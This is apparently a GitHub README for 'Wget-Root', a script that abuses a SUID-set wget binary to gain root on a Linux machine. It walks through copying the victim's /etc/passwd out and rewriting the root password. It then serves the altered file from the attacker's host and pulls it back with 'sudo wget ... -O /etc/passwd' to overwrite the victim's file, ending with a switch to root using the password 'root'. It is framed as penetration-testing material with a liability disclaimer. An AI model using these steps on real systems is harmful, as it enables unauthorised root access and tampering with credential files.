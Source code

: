 # Wget-Root

**⚠️ Warning:** This script is completly for penetration testing purposes. I do not claim any responsibility if you use it for offensive activities.

If the wget  binary has the SUID bit set, It does not drop the elevated privileges and may be abused to access the file system. It may be used to do privileged writes or write files outside a restricted file system. This script automates the rewriting of the `passwd` file of the victims machine
# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file) <br>
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port> --interface <network interface/ip>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.<br>
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.<br>
**Congratulations!** 
Now switch users to `root` with the password `root`

![Proof Of Concept Video](https://user-images.githubusercontent.com/80885284/182122277-11c1718b-de9a-4bf6-b7aa-8e5f61d7acdb.webm)
![showcase](https://i.imgur.com/1bVzFk8.png)
